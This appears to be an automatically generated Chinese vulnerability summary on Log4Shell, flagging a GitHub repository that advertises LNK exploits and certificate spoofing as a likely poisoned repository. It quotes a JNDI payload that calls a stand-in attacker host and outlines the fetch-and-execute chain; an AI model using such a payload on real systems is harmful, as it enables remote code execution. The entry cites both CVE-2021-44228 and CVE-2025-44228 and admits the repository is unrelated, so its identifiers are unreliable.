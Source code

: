 ## CVE-2021-44228 Log4Shell

**漏洞编号:** CVE-2025-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j

**危害等级:** 高危，可导致完全系统控制

**影响版本:** 2.0 <= version <= 2.14.1

**利用条件:** 应用程序使用 Apache Log4j 2，并且允许外部输入记录到日志中

**POC 可用性:** 是

**投毒风险:** 80%

## 详情

CVE-2021-44228 (Log4Shell) 是 Apache Log4j 2 中的一个高危远程代码执行漏洞。攻击者可以发送特制的字符串，如果该字符串被 Log4j 记录，则可能导致服务器下载并执行恶意代码。

**漏洞利用方式：**

1.  攻击者构造包含恶意 JNDI 查找的字符串，例如 `${jndi:ldap://attacker.com/evil}`。
2.  应用程序将该字符串记录到 Log4j 日志中。
3.  Log4j 尝试解析 JNDI 查找，发起对 `attacker.com` 的 LDAP 请求。
4.  攻击者控制的 LDAP 服务器响应，并返回指向恶意 Java 类的 URL。
5.  Log4j 下载并执行该恶意 Java 类，导致 RCE。

**有效性：**

根据搜索结果，此漏洞的PoC是广泛可用的，并且已经被积极利用。

**投毒风险：**

提供的代码仓库包含一个名为 "LNK Exploit MONSTERMC" 的 Visual Basic 项目，声称具有 LNK 漏洞利用、文件绑定、证书欺骗等功能。虽然 README.md 描述了多种攻击手段，但代码本身的目的是生成恶意 LNK 文件，利用Windows快捷方式的解析漏洞执行命令。它和 Log4Shell （CVE-2021-44228）本身没有直接关系。

**但是，该仓库整体具有较高的投毒风险，理由如下：**

*   **来源不明：** 仓库作者信息较为模糊，缺乏可信度。
*   **功能复杂：** 集成多种攻击功能，增加了隐藏恶意代码的可能性。
*   **代码混淆：** Visual Basic 代码本身可能经过混淆，难以直接分析。
*   **依赖外部资源：** 依赖 Visual Studio 等开发环境，可能存在供应链攻击风险。
*   **LNK 漏洞利用本身风险较高：** LNK文件可以伪装成正常文件，诱导用户点击，从而执行恶意代码。

因此，即使代码中没有明显的 Log4Shell 利用，该仓库也可能包含其他恶意功能或后门，建议谨慎使用。

**项目地址:** [Kariaoston/Lnk-Exploit-FileBinder-Certificate-Spoofer-Reg-Doc-Cve-Rce](https://github.com/Kariaoston/Lnk-Exploit-FileBinder-Certificate-Spoofer-Reg-Doc-Cve-Rce)

**漏洞详情:** [CVE-2025-44228](https://nvd.nist.gov/vuln/detail/CVE-2025-44228)